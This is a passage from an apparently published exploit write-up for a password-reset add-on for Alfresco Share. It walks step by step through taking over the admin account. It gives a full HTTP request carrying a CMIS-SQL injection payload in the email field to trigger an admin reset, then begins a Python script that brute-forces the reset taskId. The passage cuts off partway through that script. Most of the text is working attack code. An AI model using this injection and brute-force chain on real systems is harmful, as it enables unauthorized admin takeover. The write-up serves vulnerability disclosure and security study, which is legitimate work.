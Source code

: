 #### Password Reset Link:

`http://target.com/share/noauth/changePassWF?userToken=user_test&taskId=activiti$70130&token=45ed2d9f-d654-453b-8c26-f14ad423112f`

Once we receive the **Password Reset Link** on the user inbox, the most important part will be the `taskId` value which is `70130`, we will save this value for later use!

PS: This step is not necessary, however it will save us a lot of time when bruteforcing!
### Step 2
In this step we will trigger a Password Reset for the **ADMIN** account, however since we don't have the Admin's email address, we will use the `CMIS-SQL Injection` vulnerability.

#### Admin Password Reset:

```http
POST /share/proxy/alfresco-noauth/com/flex-solution/reset-password HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/share/page/
X-Requested-With: application/json
Content-Type: application/json
Content-Length: 61
Connection: close
Cookie: JSESSIONID=C8207D808B749934EA6DACC4A1BF23A1; _alfTest=_alfTest

{
    "userName":"404-NotFound@amriunix.com' OR cm:userName like '%admin%"
}
```

Because the email `404-NotFound@amriunix.com` does not exist in the database and we inject `' OR cm:userName like '%admin%` in the **e-mail** input, this will makes the Reset Password add-on send and trigger a password reset event for the `admin` account.

### Step 3
So far, we have successfully:

- **Retrieve** the last `taskId` value.
- **Trigger** a Password Reset event for the `Admin` account.

Now we will run a python script to bruteforce the correct `taskId` value assigned to the `Admin` account.

```python
#!/usr/bin/python3

import requests
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

host = "https://target.com"
victimUser = "admin"
newPassword = "Le1m3in!"
retreivedTaskId = 70130 # Retrieved taskId


header = {
    'Host': 'target.com',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
```